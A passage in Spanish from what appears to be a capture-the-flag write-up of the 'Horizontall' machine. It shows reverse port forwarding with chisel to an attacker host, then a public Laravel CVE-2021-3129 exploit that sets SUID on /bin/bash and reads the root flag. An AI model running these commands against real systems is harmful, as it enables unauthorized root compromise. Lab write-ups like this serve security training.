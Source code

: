 Se está empleando ```Laravel```

```null
strapi@horizontall:~$ curl -s http://127.0.0.1:8000 | tail -n 7 | head -n 1
                            Laravel v8 (PHP v7.4.18)
```

Utilizo ```chisel``` para hacer ```Remote Port Forwarding```. En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

Y en la máquina víctima como cliente

```null
strapi@horizontall:/tmp$ ./chisel client 10.10.16.9:1234 R:8000:127.0.0.1:8000
```

Utilizo este [exploit](wget https://raw.githubusercontent.com/nth347/CVE-2021-3129_exploit/master/exploit.py) y le asigno SUID a la ```bash```

```null
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'chmod u+s /bin/bash'
```

Puedo ver la segunda flag

```null
strapi@horizontall:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
strapi@horizontall:/tmp$ bash -p
bash-4.4# cat /root/root.txt
22bd1f2cd1a9c7cb72c8183da48cdbc7
```